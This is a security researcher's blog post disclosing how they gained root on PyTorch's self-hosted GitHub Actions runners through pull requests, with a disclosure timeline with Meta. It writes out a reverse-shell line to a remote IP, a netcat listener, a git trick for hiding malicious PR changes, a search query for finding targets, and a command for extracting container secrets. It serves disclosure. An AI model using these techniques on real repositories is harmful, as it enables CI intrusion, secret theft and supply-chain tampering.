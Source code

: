 ```yaml
---
title: Zuckerpunch - Abusing self hosted github runners at Facebook
author: myoung
layout: post
comments: true
permalink: /post/zuckerpunch
seo_follow:
  - 'false'
seo_noindex:
  - 'false'
categories:
  - hacking
  - meta
  - pytorch
  - github
  - ci
tags:
  - hacking
  - meta
  - pytorch
  - github
  - ci
---
```


I abused Github Actions to get full root into the PyTorch ci runners. <!-- more -->

<br/>
<br/>
### Timeline ###

 * `4/18` Initial research/exploit with an automated case response.
 * `4/20` First human response to forward to the pytorch team.
 * `4/27` I reached out to follow up.
 * `5/11` Meta responds that there is no update.
 * `6/9` I reach out again to ask about bounty terms and push for a >6 week response.
 * `6/22` Meta responds: `Unfortunately after discussing this with the product team this isn't an issue we're going to fix or reward, although code execution is possible on these machines its by design and additionally the product team has mentioned that the actions are spun up on short lived nodes (similarly to how github operates their own action runners) which limits the impact further.`
 * `6/24` I respond with multiple follow ups explaining (and again exploiting further) the scope and severity including secrets exfiltration and prove lateral movement abilities. I exploit it further and PyTorch notices and bans my user. I set up a zoom call to talk.
 * `6/27` Call goes well, team is respectful and insightful, discuss remediation, things affected and scope.
 * `6/30 - 7/22` I use favors to get in contact with the team after another month of no responses. 
 * `7/22` - Meta responds 'We're still in discussion with the product team' and refuses further discussion about impact and bounty
 * `8/16` - Another follow up sent with no responses.
 * `8/19` - After more favors I'm able to escalate it to a new security engineer at meta that provides an extremely long and helpful response
 * `8/22 - 8/24` - Back and forth about scope and impact
 * `8/24` Resolved and $10,000 bounty paid out with a 7.5% bonus due to timeline

<br/>
<br/>

### Extra resources ###

 * [iterative blog post referencing this](https://iterative.ai/blog/testing-external-contributions-using-github-actions-secrets/)
 * [Github's revert](https://github.blog/changelog/2022-10-12-reverted-recent-change-that-caused-some-pull-requests-to-be-incorrectly-marked-as-merged/)

<br/>
<br/>

### The Gritty ###

I run a somewhat successful open source [github action runner project](https://github.com/myoung34/docker-github-actions-runner)

Github provides CI runners but they have some nuances around configuration and ability. You can run your own, however, if you have special needs such as hardware requirements, security policies, etc.

There's a lot of [information](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#hardening-for-self-hosted-runners) around the hardening of these that indicate that [running them on public repos is a bad idea](https://docs.github.com/en/actions/hosting-your-own-runners/about-self-hosted-runners#self-hosted-runner-security). 

That said: if you need to you still can but you should be mindful of a few settings.

The most important setting is what I decided to go after.

{% img /images/gha.png %}

That first checkbox isn't the default, but if you're not careful it seems safer than it is. What it means is that if you're not a new user, you can submit changes to the CI yaml and itll affect what's run in the PR. So that's what I did.

I spent an hour or so using carefully crafted google search like `site:github.com inurl:workflows +"self-hosted"` and pulled up around maybe 30  or so candidates.

The issue is that there's no way to know if they have this checkbox until you open a PR and you potentially notify people of what you're doing.

Throughout these pull-requests I was able to further abuse a github UI bug that let's me "hide my commit" and it appears as though I merged my PR. It's confusing and weird but it removes the ability for them to see what I was doing.


{% img /images/gha1.png %}

What I did here was:

* Fork the repo.
* Make a change to github actions workflows that appear to have self hosted runners looking for jobs (making sure to keep `runs-on: self-hosted`) with something like: `run: echo "Testing refactor"`.
* Push the commit with a boring message like "Refactoring".
* Immediately do `git rebase -i HEAD^`. This is the key part. This basically resets my branch to the default branches SHA. Meaning there's no difference at all in tree history between the default branch (that I targeted for a PR) and the current branch/PR now.
* `git push origin {branch_name} -f`

The bug above is simply that the github UI now sees no changes to the branch (0 files changed). And since the SHA exists as the HEAD SHA on the default branch: it looks merged. Now there's no way to see what I did. The emails from git only show a link to the PR with some metadata that a file changed, but not what. If someone had an integration it would have had to be able to pull the diff from my SHA to theirs _immediately_. Because I force pushed it's no longer in existence in my fork so it's gone forever and after a few seconds there's no way to pull what my change showed.

The best part is: it already kicked off a potential github actions run though.

So here one of two things happens:

* It runs and you'll know because you'd see `echo "Testing refactor"`
* It doesn't run because they had the checkboxes set correctly and you'd see this:


{% img /images/gha2.png %}


Now it's late at night, I've sumbitted and undone roughly 30 PR's until I get a hit.

PyTorch.

This repo has a *ton* of yml in all shapes and fashion. And it makes sense to use self-hosted because of all the specialized hardware to run GPU acceleration.

I basically had full reign to any of these now that I can submit any change to CI.

The question is only: is there monitoring in place? Honestly this isn't common because CI is just all over the place. Tests change, infra is all over the place with requirements changing in dependencies, etc.

So I decided to shell in with a reverse shell. A reverse shell means I'm going to make it connect to something I have so that I can get into it as opposed to me going into it directly. Same result, but backwards. To do that I spun up a small digital ocean box and set up a reverse shell listener with `nc -u -lvp 9001`

On CI I issued a pull-request with 
<br/>
`run: sh -i 5<> /dev/tcp/143.110.155.178/9001 0<&5 1>&5 2>&5`

On my digital ocean box: I'm now connected to the machine.

From here I noticed 2 things:

 * Some of these instances are ephemeral AWS instances that have root by default and a file with plaintex IAM user keys for circleci
 * Some of these intances were less ephemeral Jenkins instances that didnt run as root but allowed sudo.

Basically they wouldn't live forever but I had root on both.

My first attempt was to exfiltrate CI secrets but this didn't quite work because forks cant exfiltrate secrets via the actions yaml (theyre not in the forked repo). I was able to prove, however, that a few things such as Android builders ran via docker and would land on these instances with the secrets nightly + on-demand. I can't force that to happen but I would be able to exfiltrate the signing key once the docker container was running with `docker inspect {container id} | jq '.[].Config.Env[0]'`

Next: AWS abuse. I wasn't able to find out directly but these instances had access to many s3 buckets. They likely had write access to some meaning I could plant files but that's boring. What they did have though was ECR image support. Without ECR Immutable tags on (confirmed) I would be able to rebuild any image for use by downstream internal projects. Meaning that if downstreams werent locking images to their build SHA's (most dont on latest or semver tags in general) I could implant anything into these containers and re-push them so that downstream projects would pull them. The effect of this at this time is unknown as this isnt the pytorch distributable, but the hope would have been that I could supply-chain internally. This scope stays "tbd".

It also didn't appear that these run in a VPC meaning that unless security software is installed there's nothing to prevent me from doing boring malicious stuff like mine crypto, blast emails, etc. If it were in a VPC I'd still have this possibility but things like GuardDuty (if enabled) would catch me doing things and flag it as irregular activity. Not worth it here and a good way to violate reasonable disclosure.

The IAM access (both from the role attached to the instance) and the IAM user were overprovisioned and also contributed to the bounty. The PyTorch team is futher lowering the permissions here to only necessary as well as (I'm assuming) bucket policies to match.

